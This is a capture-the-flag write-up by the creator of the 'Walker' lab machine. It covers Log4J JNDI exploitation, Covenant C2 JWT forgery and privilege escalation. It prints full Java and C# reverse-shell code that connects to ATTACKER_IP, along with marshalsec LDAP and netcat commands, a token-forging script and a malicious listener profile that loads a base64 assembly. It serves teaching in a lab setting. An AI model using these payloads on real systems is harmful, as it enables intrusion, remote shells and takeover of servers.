









+++
title = 'Walker'
date = 2022-08-18T14:39:25+02:00
draft = false
tags = ['thm', 'writeup', 'special']
summary = '[Walker](https://tryhackme.com/jr/walker) is a medium-hard CTF machine that has a now well-known initial access and a unique Privesc! It also incorporates some mobile testing like APK analysis and request capturing via BurpSuite. This is the second CTF-style machine that I have created and I hope that you have fun just as much as I did when I was making it! Good luck!'
description = '"Walker" is my second CTF-style machine. Never released but available unofficially on the THM platform.'
thumbnail = 'img/wl-icon.gif'
+++

Initial Access
==============

Enumeration
-----------

### Nmap

For this challenge, we are given an IP address and an APK file. Let's start out with the IP address and perform a simple scan.

```bash
sudo nmap -v -sV -p- $TARGET_IP
```

From the output below we see that two services are running on this server. One of which is OpenSSH and the other an HTTP server whose version Nmap didn't detect.

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http
```

### APK Analysis

If we try to curl the web service we will only receive a JSON response of `{"error":"404"}` both on the index page and on everything else:

```bash
curl http://$TARGET_IP/
```

We can try to brute force directories but that will generate a lot of traffic and should be done if we have no other options. Therefore let's analyze the APK. We can use a tool called [Diggy](https://github.com/s0md3v/Diggy) to find hard-coded URLs in APK files:



We have found three URLs that reveal an API! If we test for these endpoints by sending a GET request we will see that the status endpoint gives us a positive response but login and panel endpoints give us a code of 405 (Method Not Allowed):


Mobile Application
------------------

### Introduction

I would guess that the other endpoints take a POST method but that would mean that we would have to guess parameters. Therefore let's keep on investigating the APK. You can try to reverse the APK even more and find the parameters but for the sake of the write-up, I will go the other route and Install the APK on an Android emulator. The emulator that I will be using is `Genymotion`. For setting up an android emulator I recommend a great video by [InsiderPhD](https://www.youtube.com/watch?v=_HRpLPrlg1U) as for the OpenVPN, we won't have to do anything on the phone since we will proxy our data through BurpSuite that is connected to the VPN.

### Proxy Setup

The whole idea is that we will attempt to capture traffic going from the phone to the API. To do that let's set up a new listener in the `Proxy > Options` tab. As the bind address, we select it to be a `Specific Address`. The address that we choose has to be in the same local network as the phone:


On the phone, we have to open up settings. In settings, we open up the Wi-Fi section and press and hold on to the `WiredSSID` and click on `Modify network`. We expand the `Advanced options` and change the Proxy from `None` to `Manual`. As the Proxy hostname enter the BurpSuites listener's address and the port. The final configuration may look something like this:

_After you click on save you might have to turn the Wi-Fi on and off so that the changes take effect_



It will also show that it is connected but that there is no internet which makes sense since it is connected to the BurpSuites proxy. Now we can drag and drop our APK into the emulator to install it. Once we open it we will see the following:



### Endpoit Enumeration

Here we have to enter the target server's IP address! Once we click on connect we will see that our BurpSuite listener catches the request. Note that we could have discovered the endpoints like this as well. After the server has been connected we are greeted by a login page. Let's try to submit some junk data as the login:


After submitting the POST request we can look at what BurpSuite managed to capture. We can see two parameters `pwd` and `uid`:

```HTTP
POST /REDACTED/api/login HTTP/1.1
Content-Type: application/json; charset=utf-8
User-Agent: Dalvik/2.1.0 (Linux; U; Android 7.0; Google Build/NBD92Y)
Host: 10.10.90.185
Connection: close
Accept-Encoding: gzip, deflate
Content-Length: 27

{
	"pwd":"test",
	"uid":"test"
}
```

It gets more interesting when we look at the response from the server. In the mobile application, we see an error that says that the login failed and that this attempt was logged and reported! This is also confirmed by the response from the API in a form of JSON. We also see a little extra information about the fact that the login is not yet implemented.

```HTTP
HTTP/1.1 200 
Content-Type: application/json
Content-Length: 111
Date: Fri, 02 Sep 2022 09:34:39 GMT
Connection: close

{
	"status":"Login Failed",
	"info":"Login not yet implemented.",
	"message":"This attempt was logged and reported!"
}
```

### Log4J Enumeration

Before we try to brute-force the login endpoint let's try to explore the possibility of Log4J since the app clearly stated that this attempt was logged and reported. To test for this we first have to create a NetCat listener with the following command:

```bash
nc -lnvp 5555
```

Once we have started our listener we can send the following payload to test for a potential Log4J vulnerability:
```text
${jndi:ldap://ATTACKER_IP:5555/}
```

If we receive a connect-back on our listener then there may be a vulnerability (Note that the response is gibberish since NetCat can't interpret an LDAP request!):



### Java Version Detection

Looks like we got a connect-back!! While this does not immediately scream RCE it could definitely be one. It all depends on what is the version of java that is running in the backend. Note that from now on I'll use BurpSuite because we have all of the information necessary about the endpoints. To test for the backend we must create our own LDAP server. This can be done with the [marshalsec](https://github.com/mbechler/marshalsec) utility. We can also get a straight jar file from [this](https://github.com/RandomRobbieBF/marshalsec-jar) repo. We can then start the LDAP server with this command:

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://ATTACKER_IP:8888/#Exploit"
```

To test for the version we can use the following payload (Note that the port changes since we are listening for LDAP connections):

```text
${jndi:ldap://ATTACKER_IP:1389/${java:version}}
```

From the following screenshot, we see that the java version is `1.8.0_181` which is perfectly in range for Log4J exploitation.


As for the shell that I will be using... This is a simple one I pulled from GitHub! Here is the source code:

```java
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

public class Exploit {

    public Exploit() throws Exception {
        String host = "ATTACKER_IP";
        int port = 4545;
        String cmd = "/bin/sh";
        Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start();
        Socket s = new Socket(host, port);
        InputStream pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream();
        OutputStream po = p.getOutputStream(), so = s.getOutputStream();
        while (!s.isClosed()) {
            while (pi.available() > 0)
                so.write(pi.read());
            while (pe.available() > 0)
                so.write(pe.read());
            while (si.available() > 0)
                po.write(si.read());
            so.flush();
            po.flush();
            Thread.sleep(50);
            try {
                p.exitValue();
                break;
            } catch (Exception e) {}
        };
        p.destroy();
        s.close();
    }
}
```

We have to compile this shell to get a class file. Kali does not have java 8 by default so I'll go straight for the exact same version compiler that the server has:

```bash
jdk1.8.0_181/bin/javac Exploit.java
```

### Log4J Exploitation

Now we are ready for exploitation. For an RCE we need four things to happen. First, we need to host our LDAP server which we already looked at (Note that the server points to an HTTP server on port 8888):

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://ATTACKER_IP:8888/#Exploit"
```

Then we need to start the HTTP server that the LDAP server is pointing to. We start this server in the directory where we have the `Exploit.class` file since that is the payload that we are hosting:

```bash
sudo python3 -m http.server 8888
```

The second to last thing that we have to do is to start our NetCat listener on the port that we specified in the reverse shell:

```bash
nc -lnvp 4545
```

And the final thing we need to do is to trigger the LDAP request with the following command (Note that the resource we are looking for does not matter, because the LDAP server will redirect it to `Exploit.class`):

```bash
curl -X POST "http://TARGET_IP/REDACTED/api/login" -H "Content-Type: application/json" -d '{"pwd":"test","uid":"${jndi:ldap://ATTACKER_IP:1389/xyz}"}'
```

Here is what it all looks like when you run it. Definitely one of my favorite exploits!! I suggest you line up the terminals in the same way which makes it super satisfying:



Service Access
==============

Walking Around
--------------

### Basic Enumeration

We have gained access to the server!! Good job we are now "tomcat". Let's explore the server and run the usual commands:

```bash
cat user.txt
ls /home/
ls /opt/
sudo -l
find / -perm -u=s -type f 2>/dev/null
```

We first see that there are no regular users with home directories. We also don't get anything from sudo and SUID binaries! The "/opt/" directory however is incredibly interesting:

```bash-session
tomcat@walker:/var/lib/tomcat9$ ls -la /opt

total 24
drwxr-xr-x  5 root root 4096 Sep  1 13:35 .
drwxr-xr-x 24 root root 4096 Aug 31 10:54 ..
drwxr-xr-x 15 root root 4096 Sep  1 13:38 Covenant
drwxr-xr-x  4 root root 4096 Sep  1 13:12 Development
-rw-r--r--  1 root root  403 Sep  1 13:22 README.md
drw-------  2 root root 4096 Sep  1 13:15 Suspect
```

Here we see three directories and a readme file. We could guess what these directories are but let's first take a look at the readme file:

```text
# TO-DO LIST
## Overview
Here is a list that I wrote for all of the developers and hackers who work on our projects!
If you have nothing to do then take up these tasks, please... We need to get things done.

## List
1. Implement "/api/panel" authentication with the C2;
2. Develop "/api/panel" request methods;
3. Design the PanelActivity.java layout;
4. Finally figure out who hacked us (And how)!!!!!
```

### API Source Code

A readme is a to-do list that contains some note-worthy information. The most interesting task is the first one. It is said that they need to implement a panel that authenticates to a C2. We didn't see much of the panel endpoint while testing the API from the outside. If you know java projects you'll find it easily, if not then here is the path:

```bash
cat /opt/Development/Mobile_API_Backend/src/main/java/com/walker/api/Panel.java
```

Looking at the source code we don't see much since it's not yet finished. What we do see is a very interesting comment:

```java
/**
 * Implement a panel that interacts with the API
 * of the Covenant C2 framework. Methods to implement:
 * 1. Get Listeners, Launchers, Grunts;
 * 2. Add or modify Listeners and Launchers;
 * 3. Execute commands on Grunts;
 * 
 * We can use the JWTKey to generate access tokens. Token format:
 * {
 *	"sub": "",
 *	"jti": "",
 *	"http://schemas.xmlsoap.org/ws/2005/05/identity/claims/nameidentifier": "",
 *	"http://schemas.microsoft.com/ws/2008/06/identity/claims/role": "User",
 *	"exp": 100000000,
 *	"iss": "Covenant",
 *	"aud": "Covenant"
 * }
 */
```

### Covenant Settings

It is said that this endpoint will interact with a Covenant C2 which explains the directory earlier! Also, it is said that for Covenant access you can use a JWTKey to generate a token with the following format:

```json
{
	"sub": "USER",
	"jti": "USER",
	"http://schemas.xmlsoap.org/ws/2005/05/identity/claims/nameidentifier": "UID",
	"http://schemas.microsoft.com/ws/2008/06/identity/claims/role": "User",
	"exp": 100000000,
	"iss": "Covenant",
	"aud": "Covenant"
}
```

Now we just need to find the JWTKey and the Covenant service itself. We have access to the covenant directory and it is an Open-Source project so we can find the JWTKey in the following file: `/opt/Covenant/Data/appsettings.json`. In the contents we will find the key:

```json
{
	"JwtKey": "REDACTED",
	"JwtIssuer": "Covenant",
	"JwtAudience":  "Covenant",
	"JwtExpireDays":  100,
	"TrustedProxies": "127.0.0.1"
}
```

Also if we check our connections and open ports we will see that a service is running on port "7443" (Covenant port). This is our target!!

```bash-session
tomcat@walker:/opt$ netstat -tulpn

Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:7443          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      868/java            
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 10.10.90.185:68         0.0.0.0:* 
```

Pivoting
--------

### Reverse Port Forward

For the pivoting, I will be using a standalone chisel binary which is my favorite way of pivoting. The first thing we need to do is to transport it to the server. For that we can use these commands:


We will be performing a reverse port forward! The first step of this is to create a service on our attack box on an arbitrary port:

```bash
./chisel server -p 4444 --reverse
```

Now on the target host, we will first make the binary executable and then we will connect to our chisel server:

```bash
chmod +x ./chisel
chisel client ATTACKER_IP:4444 R:5656:127.0.0.1:7443
```

Note that now we will be able to access this Covenant service on port `5656`. The URL for it on our box is `https://127.0.0.1:5656/` and we are greeted with yet another login page (You do have to click through risk warnings in your browser):



Exploitation
------------

### Attack Path

Before we start our Covenant exploitation I'll link the [original article](https://blog.null.farm/hunting-the-hunters) about the vulnerabilities that are present in the Covenant service. At the time of writing, this is the newest version (v0.6) don't get me wrong this is a great tool in your arsenal but if you use it don't lose the JWTKey.

### Token Generation

Covenant has an API that can be used to interact with the whole service and do almost anything! The API is accessible with the following link: `https://127.0.0.1:5656/swagger/index.html`:


To generate the tokens I will be using a python script. When generating the tokens the values we provide generally don't matter, except for time, because on most endpoints the server does not validate them. The values to provide:

*   Username (Random);
*   A JTI identifier (Random);
*   Name Identifier (Random);
*   Time (Valid epoch time in the future);
*   JWTKey (Found in covenant settings);

```python
import jwt

payload = {
	"sub": "xyz",
	"jti": "xyz",
	"http://schemas.xmlsoap.org/ws/2005/05/identity/claims/nameidentifier": "xyz",
	"http://schemas.microsoft.com/ws/2008/06/identity/claims/role": [
		"Administrator",
		"User"
	],
	"exp": 1667393062,
	"iss": "Covenant",
	"aud": "Covenant"
}

secret = "JWTKey"

token = jwt.encode(payload, secret, algorithm='HS256')

print(token)
```

Once we have generated our token we can provide it to the server at the top of the API page where you see the button `Authorize`. In the value field, we have to provide the token in the following format: Bearer TOKEN, and click on authorize:



Now we have been authorized. We can test our permissions by scrolling down to the `/api/users` endpoint and clicking on `Try it out`. Since this is a GET request it does not need any parameters so we can click on `Execute`:

_Note down the admin username and its ID_


### Covenant Admin Access

We could try to change the password now but it won't work since it will check our tokens username and ID fields and see if they are valid! Because of that we have to regenerate the token with valid user information that we got from the "/api/users" endpoint (JTI can remain unchanged)! Now that we have the new token authorized we can reset the admin user's password:

_ID does not matter since we are changing it anyway_

```json
{
  "id": "xyz",
  "userName": "admin",
  "password": "password"
}
```

Now we can log in as the admin user in the covenant service. We can now start to poke around covenant to see what we could potentially find... Also, let's claim the flag!


Privilege Escalation
====================

Overview
--------

### Exploitation Path

For the PrivEsc we will be creating a custom covenant listener where we will use a custom profile with a modified MessageTransform function. This function is used to transform the data sent from the client to the server (For example base64 encode). This means that it is run both on the server side and the client side.


You would think that we can already run code but we can't since we don't have access to the full system namespace. For code execution, we can utilize a technique called [.NET Process Injection](https://malcomvetter.medium.com/net-process-injection-1a1af00359bc). After we have our listener ready we can create a grunt that we run on our machine (On Linux via wine) which when executed will prompt the server to run the malicious function thus giving us the shell.

Shell
-----

### Dotnet Project

The first thing we can do is create a shell. In .NET Process Injection we inject the shell as a DLL. To create a shell on our Linux machine we first need the Dotnet framework (In my case version 3.1). First, we create a new folder and a Dotnet project:

```bash
mkdir shell
cd ./shell
dotnet new console
```

### C# Shell

We can then open up the `Program.cs` file with our favorite text editor and enter the following shell (Overwriting everything):

```c#
using System;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Linq;
using System.Net;
using System.Net.Sockets;


namespace ConnectBack
{
    public class Program
    {
        static StreamWriter streamWriter;

        public static void Main(string[] args)
        {
            using(TcpClient client = new TcpClient("ATTACKER_IP", 4242))
            {
                using(Stream stream = client.GetStream())
                {
                    using(StreamReader rdr = new StreamReader(stream))
                    {
                        streamWriter = new StreamWriter(stream);
                        
                        StringBuilder strInput = new StringBuilder();

                        Process p = new Process();
                        p.StartInfo.FileName = "/bin/bash";
                        p.StartInfo.CreateNoWindow = true;
                        p.StartInfo.UseShellExecute = false;
                        p.StartInfo.RedirectStandardOutput = true;
                        p.StartInfo.RedirectStandardInput = true;
                        p.StartInfo.RedirectStandardError = true;
                        p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);
                        p.Start();
                        p.BeginOutputReadLine();

                        while(true)
                        {
                            strInput.Append(rdr.ReadLine());
                            //strInput.Append("\n");
                            p.StandardInput.WriteLine(strInput);
                            strInput.Remove(0, strInput.Length);
                        }
                    }
                }
            }
        }

        private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
        {
            StringBuilder strOutput = new StringBuilder();

            if (!String.IsNullOrEmpty(outLine.Data))
            {
                try
                {
                    strOutput.Append(outLine.Data);
                    streamWriter.WriteLine(strOutput);
                    streamWriter.Flush();
                }
                catch (Exception err) { }
            }
        }

    }
}
```

### Generation

We can then use Dotnet to build the shell. Once the build is completed it will give you a path to the DLL. This we need to remember!


We now have to convert this shell into a base64 string that we will insert into our malicious listener profile. To do that we can use the following command:

```bash
base64 -w 0 shell.dll > shell_b64
```

Malicious Listener Profile
--------------------------

### Profile C# Code

For the malicious listener we will use the following code where we will insert our base64 shell into the string variable:

```c#
public static class MessageTransform
{
	public static string Transform(byte[] bytes)
	{
		try
		{
			string assemblyBase64 = "BASE_64_SHELL";
			var assemblyBytes = System.Convert.FromBase64String(assemblyBase64);
			var assembly = System.Reflection.Assembly.Load(assemblyBytes);

			foreach (var type in assembly.GetTypes()) {
				object instance = System.Activator.CreateInstance(type);
				object[] args = new object[] { new string[] { "" } };
				try {
					type.GetMethod("Main").Invoke(instance, args);
				}
				catch {}
            }
		}
		catch {}
		return System.Convert.ToBase64String(bytes);
	}
	public static byte[] Invert(string str)
	{
		return System.Convert.FromBase64String(str);
	}
}
```

### Creating The Profile

To create a listener profile in Covenant we have to click on `Listeners > Profiles > Create`. Give it a name and input the MessageTransform code that we have created. Everything else can be left as is:


### Creating The Listener

Now we have to create the listener itself. We have to give it a name and a bind port which doesn't really matter since we only need the MessageTransform class to run! We must change the default localhost connect address to the server tun0 machine address (In my case they changed since I've been making this writeup for too long). Also, don't forget to set our custom profile:



Full Server Compromise
----------------------

### Creating The Launcher

To create a launcher we will click on `Launchers` and choose a type. It does not matter as long as you have a windows VM connected to the VPN. I will use wine on Linux so I will pick the Binary option. I will leave all of the options as defaults and generate the binary:



### Wine Installation

For the wine setup, I will install wine 32-bit and 64-bit versions. I also installed winetricks so that we can get Net35:

```bash
sudo apt update
sudo apt install wine wine32 winetricks
```

We created our launcher with Net35 (Or Net45 depending on what you chose). We have to install that as well but we do that with winetricks:

```bash
winetricks dotnet35
```

### Root Level Access

Now, all we have to do is to create a NetCat listener and listen for connections on the port we specified in the C# shell. When the listener is running we execute the grunt with wine:


If you have problems with running the grunt via wine then you could look for solutions on the internet or create a Windows VM and run it there.

### Final Task

Now that you have root you still had one objective left. Remember the suspect directory in `/opt`? Well, now we have access to it! Go ahead and delete the contents!!

Credits
=======

And that's it!!! This was "walker" by madrinch. This was my second challenge room and I hope it's on par with the first one. Also, I learned a lot while making this and I hope you did as well.  
  
Information that I used for the privilege escalation bit was gathered from these sources:
* [Covenant Vulnerabilities](https://blog.null.farm/hunting-the-hunters)
* [dotNET Process Injection](https://malcomvetter.medium.com/net-process-injection-1a1af00359bc)
